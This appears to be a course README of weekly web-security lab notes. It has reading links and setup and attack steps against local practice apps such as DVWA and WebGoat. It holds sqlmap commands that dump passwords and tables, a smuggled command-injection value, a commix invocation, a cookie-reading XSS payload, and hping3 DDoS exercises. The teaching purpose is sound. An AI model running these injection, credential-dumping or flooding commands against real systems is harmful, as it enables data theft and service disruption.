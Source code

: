 #Week 10 
<br>1 .[Tesco Bank Hack](http://www.bbc.co.uk/news/technology-37974776)
<br>2 .[The Dark Web Declassified](https://www.youtube.com/watch?v=pmjAyL2VYBA)
<br>3 . [DDoS Attack Articles](https://www.ddosattacks.net/)
<br>4 .[DDoS Attack Types](https://en.wikipedia.org/wiki/Denial-of-service_attack) 

##Group Exercise
<br>1 . Create a 10 minute presentation on a specific type of DDoS attack. How would a hacker engineer such an attack and what countermeasures can be used to stop the attack? 


#Week 9

<br>1 . [DDoS Attack Articles](https://www.ddosattacks.net/)
<br>2 . [DDoS Attack Map](http://www.digitalattackmap.com/)
<br>3 . [Norse Attack Map](http://www.digitalattackmap.com/)
<br>4 . [hping](http://www.hping.org/)
<br>5 . [hping3 Examples](http://0daysecurity.com/articles/hping3_examples.html)
<br>6 . [iptables](https://support.rackspace.com/how-to/introduction-to-iptables/)
<br>7 . [iptables v hping3](http://blog.sevagas.com/?Iptables-firewall-versus-nmap-and-hping3-32)

##Exercise

**Using hping3 with iptables**

<br>1 . Follow the hping3 and iptables tutorials above. 
<br>2 . Clone your Kali virtualbox machine. 
<br>3 . Change the network name, IP address and MAC address of the clone.
<br>4 . Use ifconfig and ping to make sure that the two machines can connect. 
<br>5 . Run DVWA on the clone.
<br>6 . Use the hping tutorials above to issue a DDos attack on DVWA on the clone.
<br>7 . Use iptables to defend against the DDos attacks (see [examples](http://blog.sevagas.com/?Iptables-firewall-versus-nmap-and-hping3-32) )
 



#Week 8
<br>1 . [Windows Code Injection](http://www.ibtimes.co.uk/all-windows-versions-potentially-exposed-cyberattacks-thanks-new-code-injection-atom-bombing-1588719)
<br>2 . Last week review:
```
python sqlmap.py -u "http://localhost:8765/read.php?id=1" --passwords
```
<br>3 . DVWA - Command Injection:
```
localhost; ls -l
```
<br>4 . [commix](https://github.com/commixproject/commix)
```
git clone https://github.com/commixproject/commix.git commix
python commix.py --url="http://localhost:8???/vulnerabilities/exec/#" --data="ip=localhost" --cookie="PHPSESSID=???????????????; security=low"
#XSS Reflected - obtain PHP Session ID:
<script>alert(document.cookie)</script>
```
##Exercise
Investigate [commix](https://github.com/commixproject/commix) and identify exploits in the URL above. Record you findings in a file named commix.txt.

#Week 7
 <br>1 . [DNS DDOS Attack](http://www.independent.co.uk/life-style/gadgets-and-tech/news/netflix-twitter-internet-down-not-working-broken-paypal-ebay-facebook-instagram-a7374506.html)
<br>2 . [sqlmap](http://sqlmap.org)
<br>3 . [sqlmap Tutorial](http://www.binarytides.com/sqlmap-hacking-tutorial/)
```
git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev #download sqlmap
cp -r /home/share/phpcrud/sqli/ . #copy over example vulnerable web app
cd sqli 
gedit customers.sql #change ged to your username
gedit database.php #change ged to your username
mysql -u student < customers.sql #set up your own database
php -S localhost:8??? #run the web server in another terminal
cd ../sqlmap-dev # cd into the sqlmap directory to run commands
python sqlmap.py -u "http://localhost:8???/read.php?id=1" 
python sqlmap.py -u "http://localhost:8???/read.php?id=1" --dbs
python sqlmap.py -u "http://localhost:8???/read.php?id=1" --tables -D rab
```
##Exercise

Assume you are a hacker attempting to steal information from the database. Investigate the [sqlmap](http://sqlmap.org) documentation and identify other exploits on the URL provided. What is the best exploit you can find? Don't try to modify or delete the database - your goal is to steal the information without the owner of the database knowing. Document the exploit in a file called sqlmap.txt. There will be a really expensive prize for the best exploit identified. 
```
gedit sqlmap.txt
```
 
#Week 6
<br>1 . [XSS Example](https://en.wikipedia.org/wiki/Samy_(computer_worm))
<br>2 . [XSS Tutorial](http://excess-xss.com/)
<br>3 . Install DVWA on Kali - Start MySql:
```
sudo /etc/init.d/mysql start
```
<br>4 . Clone, cofigure and run DVWA:
```
git clone https://github.com/ethicalhack3r/DVWA.git
cd DVWA
gedit config/config.inc.php; #(change the p@ssword value to empty string)
php -S localhost:8???
```
##Exercises
<br> 1 .Research the links in DVWA for XSS and the complete the [XSS Exercises](https://docs.google.com/document/d/1C3DhOaoUeo-tUU4v3I7xR39xtYOKZmRIe2P00hc4Rew/edit?usp=docslist_api)

# Week 5

<br>1 . [Facebook Outage](http://www.bbc.co.uk/news/world-us-canada-34383655)
<br>1 . [SQL Tutorial](http://www.w3schools.com/sql/)
<br>2 . [SQL Injection Exercises](https://docs.google.com/document/d/19xmxzBD-6jzDeqOUDhtQ7Yt3bws0-YAZL3DfN2xZv9I/edit?usp=docslist_api)
<br>3 . [OWASP Zed Attack Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
<br>4 . Installing ZAP: 
```
mkdir zap
cd zap
cp /home/share/zap/ZAP_2.5.0_Linux.tar.gz .
tar -zxvf ZAP_2.5.0_Linux.tar.gz
./zap.sh
```
##Exercises 
<br>1 . Introduce yourself to the concept of SQL programming by spending 20 minutes on the initial exercises in this [SQL Tutorial](http://www.w3schools.com/sql/)
<br>2 . Run DVWA and complete these [SQL Injection Exercises](https://docs.google.com/document/d/19xmxzBD-6jzDeqOUDhtQ7Yt3bws0-YAZL3DfN2xZv9I/edit?usp=docslist_api) 
<br>3 . Install ZAP using the instructions above. 

# Week 4

<br>1 . [OWASP Top 10 Web Vulnerabilities](https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/owasptop10/OWASP%20Top%2010%20-%202013.pdf)
<br>2 . [SQLi Examples](http://codecurmudgeon.com/wp/sql-injection-hall-of-shame/)
<br>3 . [X2GO Client](https://drive.google.com/file/d/0B-CFaefA1v4RVWN5eFRlSV9YbVU/view?usp=sharing)
<br>4 . [Connecting To Ygritte](https://docs.google.com/document/d/1wV6XGhOPlpwCMElZAqlH83YYXo_PpdNNdVMN6Toh3mw/pub)


## Exercises 
<br>1 . Send me an email with the following [message](https://docs.google.com/document/d/1B-ztaNF94ToirsNu_SIeT7LGtaPnOG0EWJOU5xzPkbU/edit?usp=docslist_api).
<br>2 . Complete Exercise 1 from last week. 
<br>3 . Copy DVWA to your home drive using the following commands:

```
mkdir webapps
cp -r /home/share/dvwa/. webapps
```
You will need to change the database name in the following file (once you have copied it):
````
gedit webapps/DVWA-1.9/config/config.inc.php
````
<br> 4 . Run a PHP web server in the webapps directory:

```
cd 
cd webapps/DVWA-1.9
php -S localhost:8???
```
<br>5 . Point firefox to the following URL:
```
http://localhost:8???/login.php
```
<br>6 . [SQL Injection Exercises](https://docs.google.com/document/d/19xmxzBD-6jzDeqOUDhtQ7Yt3bws0-YAZL3DfN2xZv9I/edit?usp=docslist_api)



# Week 3

<br>1 . [Betfair DDos Attacks](http://www.information-age.com/how-to-survive-a-denial-of-service-attack-284366/)
<br>2 . [SQLi Examples](http://codecurmudgeon.com/wp/sql-injection-hall-of-shame/)
<br>3 . [OWASP](https://www.owasp.org/index.php/Main_Page)
<br>4 . [WebGoat](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)
<br>5 . [SQL Tutorial](http://www.w3schools.com/sql/)
<br>6 . [Web Scarab](https://www.owasp.org/index.php/WebScarab_Getting_Started)
```
wget https://github.com/WebGoat/WebGoat/releases/download/7.0.1/webgoat-container-7.0.1-war-exec.jar
java -jar webgoat-container-7.0.1-war-exec.jar 
http://localhost:8080/WebGoat/
```

## Exercise

1 . Choose one of the [SQLi Examples](http://codecurmudgeon.com/wp/sql-injection-hall-of-shame/) and write a short report (500 words) describing the attack. Include information (if available) such as who carried out the attack, why they did it and what effect the attack had on the website or the server targeted. Was the exploit preventable? Search for other articles related to the attack and reference them in your report. 
 
